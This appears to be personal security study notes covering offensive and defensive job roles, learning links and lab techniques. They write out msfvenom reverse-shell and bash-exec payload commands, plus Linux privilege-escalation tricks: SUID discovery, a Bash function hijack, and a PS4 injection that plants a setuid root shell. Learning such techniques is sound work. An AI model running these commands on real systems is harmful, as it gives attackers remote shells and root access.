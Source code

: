 # Notes

**offensive security**

Look for vulnerabilities, recommend patches. Exploiting bugs. Finding loopholes. Gain unauthorized access.

* **penetration tester**: "Responsible for testing technology products for finding exploitable security vulnerabilities." (web security, network security knowledge, use various programming languages, cloud security)
* **Red Teamer**: "Plays the role of an adversary, attacking an organization and providing feedback from an enemy's perspective."
* **Security Engineer**: "design, monitor, and maintain security controls, networks, and systems to help prevent cyberattacks".

**defensive Security**. 
  * **Security Analyst** (monitor - splunk?)
  * **Incident Responder** (impact? goal? what can they do? - Volatility?)
  * **malware analysis**

Detect, and stop attacks. Monitor, analyze. Investigate infected computers, try to find how they were hacked, track down cybercriminals.

* Linux security researcher > Hashing


Other

* https://www.hackerrank.com/

<hr class="sep-both">

## Random

* Attack a vulnerable machine, scan the network to discover more vulnerable machines.

* Intrusion Detection System (IDS) is a system that detects unauthorised network and system intrusions. Examples include detecting unauthorised devices connected to the local network and unauthorised users accessing a system or modifying a file.

* https://wiki.owasp.org/index.php/OWASP_Testing_Guide_v4_Table_of_Contents

* Wireshark: https://unit42.paloaltonetworks.com/wireshark-workshop-videos/

* The [SecLists GitHub Repository](https://github.com/danielmiessler/SecLists/) contains useful lists of usernames/passwords, payloads, urls, ...

<hr class="sep-both">

## Metasploit

msfvenom to generate a reverse shell ELF binary: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf`

generate a payload using msfvenom callnig /bin/bash:

msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf

<hr class="sep-both">

## Privilege escalation

* SGID `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
* SUID - shared

Run strace on the file and search the output for open/access calls and for "no such file" errors:

strace xxx.so 2>&1 | grep -iE "open|access|no such file"

* we can see the trace of the program. We can look if the program tried to open files that we can write.
* .so (a c program compiled as shared)
* if you try to read a .so, you won't understand much aside some character that were not "changed". You can see these characters with `strings xxx.so`
* Can inject env variables: PATH=.:$PATH ./xxx.so

n Bash versions <4.2-048, possible create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved).

function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service

Bash <4.4 enable debug, inject code in the PS4 env variable
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' _shared object that the user can run_

.bash_history
=> look for mysql, su, sudo...

ssh -i root_key (chmod 600)

---

Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

Check the NFS share configuration on the Debian VM:

cat /etc/exports

----

Kernel exploits can leave the system in an unstable state, last resort.

Run the Linux Exploit Suggester 2 tool to identify potential kernel exploits on the current system:

perl linux-exploit-suggester-2.pl

Linux kernel exploit "Dirty COW"